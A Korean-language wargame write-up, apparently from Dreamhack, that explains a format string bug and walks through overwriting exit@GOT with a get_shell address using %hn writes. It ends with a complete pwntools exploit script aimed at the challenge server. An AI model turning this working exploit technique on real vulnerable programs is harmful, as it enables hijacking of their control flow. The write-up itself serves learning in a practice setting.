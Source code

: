 ```yaml
---
tags: [dreamhack, wargame, write-up]		
---
```


Format String Bug (FSB) - GOT overwrite(공격 방법)

format string 이란? %d, %s, %x, %c 등

%n(4byte), %hn(2byte) : store the length of print (지금까지 입력된 문자열의 개수 출력)

FSB는 %n/%hn을 활용해야한다.

(특정한 포인터나 값을 원하는 만큼 저장할 수 있음)

다만 조건이 제한적인데,

일반적으로 사용하는 printf(”%s”, buf); 등의 형식에서는 사용이 불가능하고,

printf(buf); 처럼 입력값을 바로 사용하는 경우에만 익스플로잇이 가능한다.

보통 익스플로잇할 때는 %hn을 사용한다. 

그 이유는 0x08048609를 덮으려고 하면 8048609 개 만큼을 출력해야 하기 때문에 무리이고, %hn으로 2byte씩 나눠서 출력하는 게 효율적이다.

---

![Image](/assets/img/be2/image1.png)

이미지와 같이 %x를 5번 입력하게 되면 현재 따로 설정된 인자값이 없기 때문에, 그냥 스택에서 %x를 5번 읽게 되어 스택 포인터와 코드 영역 포인터 등이 노출된다.

![Image](/assets/img/be2/image2.png)

- FSB 이전의 스택 프레임 덤프

```bash
Breakpoint 5, __printf (format=0xffffcd88 "AAAA%x %x %x %x %x\n\b\320f\374\367\b\326\377\367 ") 
```

![Image](/assets/img/be2/image3.png)

- FSB 이후의 스택 프레임 덤프

![Image](/assets/img/be2/image4.png)

해당 파일을 checksec으로 확인해보면 No PIE이기 때문에 로컬에서 구한 바이너리 값이 그대로 적용된다는 것을 알 수 있다.(ASLR 적용 X) 

익스에 성공하기 위해  해야할 것은 exit@GOT 주소를 찾아서 해당 값을 get_shell의 주소로 덮는 것이다.

따라서 알아내야 할 정보는 get_shell()함수의 위치와 exit@GOT의 주소이다.

### get_shell() : 0x8048609

![Image](/assets/img/be2/image5.png)

### exit@GOT : 0x804a024

![Image](/assets/img/be2/image6.png)

![Image](/assets/img/be2/image7.png)

0x804a024를 x/4xb로 확인해보면 값이

0x804a024 : 0x76

0x804a025 : 0x84

0x804a026 : 0x04

0x804a027 : 0x08

로 저장된다는 것을 알 수 있고, 여기서 상위 2바이트는 0x0804a026 부터, 하위 2바이트는 0x0804a024 부터 덮으면 된다는 것을 알 수 있다.

get_shell()의 주소와 exit@GOT의 주소가 일단 804까지는 똑같기 때문에 a024를 8609로 덮어야한다. 

→라고 생각했는데 안정성 때문에 0804까지 덮는 게 정석이라고 한다.

즉, %hn을 두번 사용해서 상위 2바이트와 하위 2바이트로 나눠 입력하여 전체 주소를 덮어줘야한다.

따라서 페이로드는

payload = p32(exit_got + 2) + p32(exit_got) + "get_shell의 주소값 - 0x8"

가 된다.

여기서 “get_shell의 주소값 - 0x8"을 하는 이유는 앞에 입력한 p32(exit_got + 2) + p32(exit_got)의 8byte만큼의 길이도 포함해서 계산을 해야 하기 때문이다.

0x8609 (34313)을 덮고나면, 두 번째로는 0x0804 (2052)를 덮어야 하는데, 이미 34313만큼 출력된 상태이다.

→여기서 궁금했던 건 두 번째 %hn이 첫 번째 %hn의 출력 누적 수의 영향을 받는가?였는데 답은 YES 였다.

→그치만 서로 다른 메모리(상위,하위)를 덮기 때문에 서로의 메모리를 건드리진 않는다.

우리가 덮을 때 사용하는 %hn은 하위 2바이트(16비트)를 덮는데, 16비트의 최대 크기는 65536(0x10000) 이고, 이만큼 출력하면 0으로 돌아가는 특징이 있다.

```bash
(upper(목표) - lower) % 0x10000
= (0x0804 - 0x8609) % 0x10000
= (2052 - 34313) % 65536
= (-32261) % 65536
= 33275
```

따라서 해당 연산을 하게 되면 원하는 값을 넣을 수 있다.

### exploit.py

```bash
from pwn import *

p = remote('host3.dreamhack.games', 20105)

get_shell = 0x08048609
exit_got = 0x0804a024

lower = get_shell & 0xffff   
upper = (get_shell >> 16) & 0xffff  

addr1 = p32(exit_got)
addr2 = p32(exit_got + 2)

written = 8

pad1 = lower - written
payload = addr1 + addr2
payload += f"%{pad1}c%1$hn".encode()

pad2 = (upper - lower) % 0x10000
payload += f"%{pad2}c%2$hn".encode()

print(f"Payload length: {len(payload)}")
p.sendline(payload)
p.interactive()
```